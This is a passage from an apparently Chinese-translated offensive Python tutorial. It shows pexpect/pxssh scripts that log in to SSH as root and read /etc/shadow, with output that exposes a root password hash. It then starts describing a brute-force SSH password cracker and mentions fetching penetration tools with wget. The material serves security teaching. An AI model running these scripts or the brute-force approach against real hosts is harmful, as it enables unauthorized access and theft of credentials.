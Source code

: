 ```
    child.sendline(password)
    child.expect(PROMPT)
    return child
def main():
    host = 'localhost'
    user = 'root'
    password = 'toor'
    child = connect(user, host, password)
    send_command(child, 'cat /etc/shadow | grep root')
if __name__ == '__main__':
    main() 
```

运行这个脚本。我们可以看到我们可以连接到一个 SSH 服务器，并远程控制者个主机。我们通过简单的命令以 root 身份读取`/etc/shadow` 文件来显示哈希密码，我么可以使用这个工具做一些更狡猾的事情，比如说用`wget` 下载渗透工具。你可以在 Backtrack 上通过生成`ssh-keys` 来启动 SSH 服务。尝试启动 SSH 服务器，然后用这个脚本区连接它。

```
attacker# ssh-kengen
Generating public/private rsa1 key pair.
<..SNIPPED..>
attacker# service ssh start
ssh start/running, process 4376
attacker# python sshCommand.py
cat /etc/shadow | grep root
root:$6$ms32yIGN$NyXj0YofkK14MpRwFHvXQW0yvUid.slJtgxHE2EuQqgD
74S/GaGGs5VCnqeC.bS0MzTf/EFS3uspQMNeepIAc.:15503:0:99999:7::: 
```

## 通过 Pxssh 暴力破解 SSH 密码

在写最后一个脚本时真的让我们更加深入的了解了`pexpect` 模块的能力，但我们可以简化之前的脚本利用`pxssh` 模块。`Pxssh` 是`Pexpect`模块附带的脚本，它可以直接与 SSH 会话进行交互，通过预先定义的`login()`,`logout()`,`prompt()`函数。使用`pxssh` 模块，我们可以压缩我们之前的代码。

```
import pxssh
def send_command(s, cmd):
    s.sendline(cmd)
    s.prompt()
    print(s.before)
def connect(host, user, password):
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        return s
    except:
        print '[-] Error Connecting'
        exit(0)
s = connect('127.0.0.1', 'root', 'toor')
send_command(s, 'cat /etc/shadow | grep root') 
```

我们的脚本快要完成了。我们只需要对我们的脚本稍作修改就能暴力破解 SSH 认证。除了增加一些选项解析主机名，用户名和密码文件，我们唯一要做的就是稍微修改一下`connect()`函数。如果`login()`函数成功登陆没有异常的话，我们将打印消息提示发现密码，然后更新全局布尔值标识。否则，我们将捕捉异常。如果异常显示密码“refused”，我们知道密码错误，直接返回。然而，如果异常显示`socket` 套接字“read_nonblocking”，我们可以假设这个 SSH 服务器超过了最大连接数，然后我们会睡眠几秒再次尝试相同的密码连接。此外，如果异常显示`pxssh` 难以获得命令提示符，我们将睡眠一会使它能获取命令提示符。值得注意的是我们包含一个布尔值在`connect()`的函数参照中。`connect()`函数可以递归的调用其他的`connect()`函数，我们希望调用者可以释放连接锁信号量。
